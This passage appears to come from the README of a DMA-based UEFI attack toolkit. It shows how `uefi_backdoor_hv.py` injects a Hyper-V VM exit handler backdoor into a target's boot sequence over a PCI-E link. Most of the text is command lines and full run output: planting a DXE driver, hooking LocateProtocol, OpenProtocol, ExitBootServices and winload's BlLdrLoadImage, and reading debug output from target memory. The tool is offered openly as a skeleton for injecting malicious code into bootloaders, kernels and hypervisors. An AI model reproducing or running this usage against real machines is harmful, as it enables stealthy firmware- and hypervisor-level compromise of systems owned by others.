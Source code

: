 This dummy UEFI DXE driver along with `uefi_backdoor_simple.py` program can be used as skeleton project to implement various attacks like injecting of malicious code into the operating system bootloader, kernel or hypervisor.

There's also another Python program &minus; `uefi_backdoor_hv.py`, it injects Hyper-V VM exit handler backdoor located in `payloads/DmaBackdoorHv` folder into the target system boot sequence exactly in the same way as previous dummy UEFI DXE driver. Here's an example of its usage:

```
$ ./uefi_backdoor_hv.py --driver payloads/DmaBackdoorHv/DmaBackdoorHv_X64.efi
[+] Using UEFI system table hook injection method
[+] Reading DXE phase payload from payloads/DmaBackdoorHv/DmaBackdoorHv_X64.efi
[+] Waiting for PCI-E link...
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] Looking for DXE driver PE image...
[+] PE image is at 0x77160000
[+] EFI_SYSTEM_TABLE is at 0x7a03e018
[+] EFI_BOOT_SERVICES is at 0x7a38fa30
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3987b4
Backdoor image size is 0x2c20
Backdoor entry RVA is 0xbd4
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3987b4 -> 0x000c0bd4
3.611646 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed, you can read its debug messages by running this program with --debug-output option
[+] Waiting for Hyper-V load...
[+] Hyper-V image was loaded

    Hyper-V image base: 0xfffff8072d690000
           Image entry: 0xfffff8072d901360
       VM exit handler: 0xfffff8072d8add90

[+] DONE
```

UEFI DXE driver of Hyper-V Backdoor is also printing its debug messages on the screen. In addition, you can use `--debug-output` option of `uefi_backdoor_hv.py` to read this debug messages from the target system physical memory and print them into the stdout:

```
$ ./uefi_backdoor_hv.py --debug-output
[+] PCI-E link with target is up
[+] Debug output buffer address is 0x79db3000

DmaBackdoorHv.c(1018) : ******************************
DmaBackdoorHv.c(1019) :
DmaBackdoorHv.c(1020) :   Hyper-V backdoor loaded!
DmaBackdoorHv.c(1021) :
DmaBackdoorHv.c(1022) : ******************************
DmaBackdoorHv.c(1055) : Image address is 0xc0000
DmaBackdoorHv.c(275) : BackdoorImageRealocate(): image size = 0x3260
DmaBackdoorHv.c(1065) : Resident code base address is 0x79daf000
DmaBackdoorHv.c(794) : Protocol notify handler is at 0x79daf364
DmaBackdoorHv.c(819) : BackdoorEntryResident()
DmaBackdoorHv.c(830) : OpenProtocol() hook was set, handler = 0x79db1477
DmaBackdoorHv.c(835) : ExitBootServices() hook was set, handler = 0x79db1487
DmaBackdoorHv.c(447) : winload.dll is at 0x8ee000
DmaBackdoorHv.c(448) : winload!BlLdrLoadImage() is at 0x984a10
DmaBackdoorHv.c(477) : 535 free bytes found at the end of the code section at 0xa4ade9
DmaBackdoorHv.c(527) : winload!BlLdrLoadImage() hook was set, handler is at 0x79daf50c
```
